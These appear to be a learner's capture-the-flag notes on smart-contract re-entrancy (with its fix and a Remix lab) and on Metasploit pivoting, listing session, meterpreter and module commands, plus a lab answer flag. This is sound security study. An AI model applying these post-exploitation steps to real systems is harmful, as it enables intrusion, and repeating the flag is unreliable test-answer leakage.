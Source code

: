 Contract_B goes from 1, 0 and back to 1 for balance as the only check is if balance is > 0 as Smart Contracts can make calls asynchronously while the condition function is executing
- Fix = modify the function logic to remove the balance _before_ another call can be made
-  re-entrancy occurs when a malicious contract uses a fallback function to continue depleting a contract's total balance due to flawed logic after an initial withdraw function occurs.

### Practical Application

for this task use the Remix IDE https://remix.ethereum.org/ 
for testing and deploy contracts (practice)

the deploy and run transaction menus
import files: file explorer > default workspace > load local file > select `.sol` files
- `EtherStore.sol` Best Festival Company
- `Attack.sol` malicious contract that tries the re-entry exploit 

What flag is found after attacking the provided EtherStore Contract?
- ` flag{411_ur_37h_15_m1n3} `


## Day 9 - Pivoting

after Metasploit exploit
```
sessions

sessions -u -1

sessions -i session_id

background
```

Meterpreter
```
sysinfo

upload local_file.txt

resolve remote_service1 remote_service2
```

Pivoting
Once an attacker gains initial entry into a system, the compromised machine can be used to send additional web traffic through - allowing previously inaccessible machines to be reached.

use Kali Box
`msfconsole`

Metasploit
```
msf6> search <module>
msf6> use path/to/thing
msf6> exploit(path/to/thing) > info

show options
set rhost MACHINE_IP
set verbose true
set lhost LISTEN_IP
show options
check
run

---
msf6> use admin/postgres/postgres_sql
msf6> auxiliary(admin/postgres/postgres_sql) > run


```